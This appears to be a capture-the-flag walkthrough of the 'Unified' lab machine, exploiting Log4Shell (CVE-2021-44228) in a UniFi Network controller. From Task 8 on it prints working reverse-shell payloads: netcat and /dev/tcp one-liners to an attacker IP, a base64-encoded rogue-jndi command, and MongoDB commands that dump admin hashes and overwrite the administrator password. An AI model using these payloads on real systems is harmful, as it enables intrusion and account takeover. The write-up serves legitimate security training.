# Unified


## Task 1

Which are the first four open ports?`

```bash

┌──(n00b㉿v1c70r)-[~/starting point]
└─$ nmap -sCV -A 10.129.211.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-26 07:03 EAT
Nmap scan report for 10.129.211.32
Host is up (0.25s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.211.32:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Thu, 26 Sep 2024 04:05:01 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Thu, 26 Sep 2024 04:05:00 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Thu, 26 Sep 2024 04:05:01 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|     Request</h1></body></html>
|   Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Thu, 26 Sep 2024 04:05:02 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=9/26%Time=66F4DD6C%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,84,"HTTP/1\.1\x20302\x20\r\nLocation:\x20http://localhost:8
SF:080/manage\r\nContent-Length:\x200\r\nDate:\x20Thu,\x2026\x20Sep\x20202
SF:4\x2004:05:00\x20GMT\r\nConnection:\x20close\r\n\r\n")%r(HTTPOptions,84
SF:,"HTTP/1\.1\x20302\x20\r\nLocation:\x20http://localhost:8080/manage\r\n
SF:Content-Length:\x200\r\nDate:\x20Thu,\x2026\x20Sep\x202024\x2004:05:00\
SF:x20GMT\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x
SF:20400\x20\r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-Langua
SF:ge:\x20en\r\nContent-Length:\x20435\r\nDate:\x20Thu,\x2026\x20Sep\x2020
SF:24\x2004:05:01\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20html>
SF:<html\x20lang=\"en\"><head><title>HTTP\x20Status\x20400\x20\xe2\x80\x93
SF:\x20Bad\x20Request</title><style\x20type=\"text/css\">body\x20{font-fam
SF:ily:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:white
SF:;background-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font-s
SF:ize:16px;}\x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\x2
SF:0{color:black;}\x20\.line\x20{height:1px;background-color:#525D76;borde
SF:r:none;}</style></head><body><h1>HTTP\x20Status\x20400\x20\xe2\x80\x93\
SF:x20Bad\x20Request</h1></body></html>")%r(FourOhFourRequest,24A,"HTTP/1\
SF:.1\x20404\x20\r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-La
SF:nguage:\x20en\r\nContent-Length:\x20431\r\nDate:\x20Thu,\x2026\x20Sep\x
SF:202024\x2004:05:01\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20h
SF:tml><html\x20lang=\"en\"><head><title>HTTP\x20Status\x20404\x20\xe2\x80
SF:\x93\x20Not\x20Found</title><style\x20type=\"text/css\">body\x20{font-f
SF:amily:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:whi
SF:te;background-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font
SF:-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\
SF:x20{color:black;}\x20\.line\x20{height:1px;background-color:#525D76;bor
SF:der:none;}</style></head><body><h1>HTTP\x20Status\x20404\x20\xe2\x80\x9
SF:3\x20Not\x20Found</h1></body></html>")%r(Socks5,24E,"HTTP/1\.1\x20400\x
SF:20\r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-Language:\x20
SF:en\r\nContent-Length:\x20435\r\nDate:\x20Thu,\x2026\x20Sep\x202024\x200
SF:4:05:02\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><title>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad
SF:\x20Request</title><style\x20type=\"text/css\">body\x20{font-family:Tah
SF:oma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:white;backgr
SF:ound-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font-size:16p
SF:x;}\x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\x20{color
SF::black;}\x20\.line\x20{height:1px;background-color:#525D76;border:none;
SF:}</style></head><body><h1>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\
SF:x20Request</h1></body></html>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 244.18 seconds

```

22,6789,8080,8443 

## Task 2

What is the title of the software that is running running on port 8443?



UniFi Network

## Task 3

What is the version of the software that is running?


6.4.54

## Task 4

What is the CVE for the identified vulnerability?

```bash
Search for “Unify 6.5.4 CV” and will have some sites that talk about : CVE-2021–44228. I found this article : https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi very interesting.
```

CVE-2021–44228

## Task 5

 What protocol does JNDI leverage in the injection? 


## Task 6

What tool do we use to intercept the traffic, indicating the attack was successful? 


tcpdump

## Task 7

 What port do we need to inspect intercepted traffic for? 

```bash
The protocol use for injection is LDAP, so the port to inspect is the default port of LDAP which is 389.
```

## Task 8

 What port is the MongoDB service running on? 

The mongoDB service is an internal process. We first try to take the 
control of the machine by exploiting the CVE : CVE-2021–44228.

First step is to download a tool that will help us to exploit the previous vulnerabilities.

```
wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```

Once
 the tool is download, use the following code to open an LDAP server on 
your attack box. Note that you have to change the IP address by yours

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc IP_ADDRESS PORT -e /bin/sh" -A "IP_ADDRESS"
```

The output will be similar to this


The second step is to open a netcat listener in our attack box. 4444 here is my chosen port.

```
nc -lvp 4444
```


The third step is to intercept a login request with burpsuite and tamper 
with it, By adding our payload. Replace the URL with the one which is 
return in the previous step


When we send out request we got an error



Before we continue it is important to know if the error it is not because the 
application is not vulnerable. To verify that, we will use tcpdump to 
intercept traffic and verify if there is an initiated connection when 
the previous request is sent.

Start tcpdump with this command

```
sudo tcpdump -i tun0 port 1389
```

Then re-send the request, and you will have output like this. Mean that 
application is vulnerable to jndi injection, but we have to build a 
better payload.


To build our payload, we will need maven and open-jdk, in my computer it 
is installed by default if it is not the case for you, install it.

Clone and build the project with this command line

```
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```


Then, encode to base64 the command we want to inject. Change the IP_ADDRESS 
by your attack box and PORT by the port you want (it has to be free).

```
echo 'bash -c bash -i >&/dev/tcp/IP_ADDRESS/PORT 0>&1' | base64
```

Copy the output, it will help in the following


After this, we launch an LDAP server on our attack box. Change the IP_ADDRESS
 by yours and the base64 code by the previous output

```
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMjM0LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "IP_ADDRESS"
```


We have now to open a listener on a port, we previously choose



Then, we intercept a login request with burpsuite and add our payload


Send the request and back to your listener, you are now connected to the victim machine



Once connected, we can upgrade the shell to be more interactive

```
script /dev/null -c bash
```



We use the ps -aux command to know processes running



!

And there is mongodb at the port 27117

## Task 9

What is the default database name for UniFi applications?

Connect to mongo db and list databases

```
mongo --port 27117
show dbs
```



## Task 10

What is the function we use to enumerate users within the database in MongoDB?

```bash
db.admin.find()
```

## Task 11

 What is the function we use to update users within the database in MongoDB? 

```bash
db.admin.update()
```

## Task 12

 What is the password for the root user? 

Use this command to dump all the passwords in the database :

```
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
<17 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
 "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
 "name" : "administrator",
 "email" : "administrator@unified.htb",
 "x_shadow" : "$6$nCiz.BUHQGQ8KpZv$pRaZabdm03bPBxVyaG6OKs/dmMASG6DxTC30/IceWjGVeXtBbYshFjuAGOJOJcEQhE4.4x0ETwCS/92wsa7W51",
```

There
 is an administrator user, in the x_shadow file it is an SHA-512 hash of
 the password, you can try to crack it but it nos possible. So we will 
update the admin user and change it password by a chose one.

We generate the hash of new password

```
mkpasswd -m sha-512 Password
```

We update the administrator user and add the password of our custom hash with the follow command

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"HASH GENERATES"}})'
```

We verify is the update was done

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

And try to connect with username and our custom password



The manage console is now open



Just open the site tab on the settings menu and the password is store in clear text.



Once connected, we can get the user flag at the /home/michael folder



Root flag is in the /root folder

